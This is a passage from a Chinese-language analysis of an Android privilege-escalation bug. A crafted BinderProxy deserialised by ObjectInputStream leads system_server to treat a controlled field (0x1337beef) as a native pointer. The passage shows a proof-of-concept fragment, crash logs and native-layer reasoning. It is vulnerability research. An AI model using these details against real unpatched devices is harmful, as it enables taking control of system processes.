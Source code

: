 ```
            */
            mRemote.transact(TRANSACTION_setApplicationRestrictions, _data, _reply, 0);
            _reply.readException();
        }
        finally {
            _reply.recycle();
            _data.recycle();
        }
    }

```

安装POC，启动`Activity`后将其最小化，触发GC，引起Android系统重启，从Logcat日志中可以看到，`system_server`执行到了之前设置的`BinderProxy`对象的`0x1337beef`这个值，访问了不该访问的内存，导致异常。错误信号、寄存器快照和调用栈如下：

```
05-14 18:30:55.974: I/DEBUG(3695): Build fingerprint: 'google/hammerhead/hammerhead:4.4.4/KTU84P/1227136:user/release-keys'
05-14 18:30:55.974: I/DEBUG(3695): Revision: '11'
05-14 18:30:55.974: I/DEBUG(3695): pid: 1552, tid: 1560, name: FinalizerDaemon  >>> system_server <<<
05-14 18:30:55.974: I/DEBUG(3695): signal 11 (SIGSEGV), code 1 (SEGV_MAPERR), fault addr 1337bef3
05-14 18:30:56.064: I/DEBUG(3695):     r0 1337beef  r1 401b89d9  r2 746fdad8  r3 6d4fbdc4
05-14 18:30:56.064: I/DEBUG(3695):     r4 401b89d9  r5 1337beef  r6 713e3f68  r7 1337beef
05-14 18:30:56.064: I/DEBUG(3695):     r8 1337beef  r9 74709f68  sl 746fdae8  fp 74aacb24
05-14 18:30:56.064: I/DEBUG(3695):     ip 401f08a4  sp 74aacae8  lr 401b7981  pc 40105176  cpsr 200d0030
...
I/DEBUG   (  241): backtrace:
I/DEBUG   (  241):     #00  pc 0000d176  /system/lib/libutils.so (android::RefBase::decStrong(void const*) const+3)
I/DEBUG   (  241):     #01  pc 0007097d  /system/lib/libandroid_runtime.so
I/DEBUG   (  241):     #02  pc 0001dbcc  /system/lib/libdvm.so (dvmPlatformInvoke+112)
I/DEBUG   (  241):     #03  pc 0004e123  /system/lib/libdvm.so (dvmCallJNIMethod(unsigned int const*, JValue*, Method const*, Thread*)+398)
I/DEBUG   (  241):     #04  pc 00026fe0  /system/lib/libdvm.so
I/DEBUG   (  241):     #05  pc 0002dfa0  /system/lib/libdvm.so (dvmMterpStd(Thread*)+76)
I/DEBUG   (  241):     #06  pc 0002b638  /system/lib/libdvm.so (dvmInterpret(Thread*, Method const*, JValue*)+184)
I/DEBUG   (  241):     #07  pc 0006057d  /system/lib/libdvm.so (dvmCallMethodV(Thread*, Method const*, Object*, bool, JValue*, std::__va_list)+336)
I/DEBUG   (  241):     #08  pc 000605a1  /system/lib/libdvm.so (dvmCallMethod(Thread*, Method const*, Object*, JValue*, ...)+20)
I/DEBUG   (  241):     #09  pc 00055287  /system/lib/libdvm.so
I/DEBUG   (  241):     #10  pc 0000d170  /system/lib/libc.so (__thread_entry+72)
I/DEBUG   (  241):     #11  pc 0000d308  /system/lib/libc.so (pthread_create+240)

```

**_Native层分析:_**

假如`BinderProxy`可以被序列化，那么在反序列化时，其field引用的对象也会被反序列化；但在POC中`ObjectInputStream`反序列化的`BinderProxy`对象实例不可序列化，这样在`ObjectInputStream`反序列化`BinderProxy`对象时，发生了类型混淆（type confusion），其field被当做随后由Native代码处理的指针。这个filed就是之前设置的`0x1337beef`，具体而言，就是mOrgue这个变量。
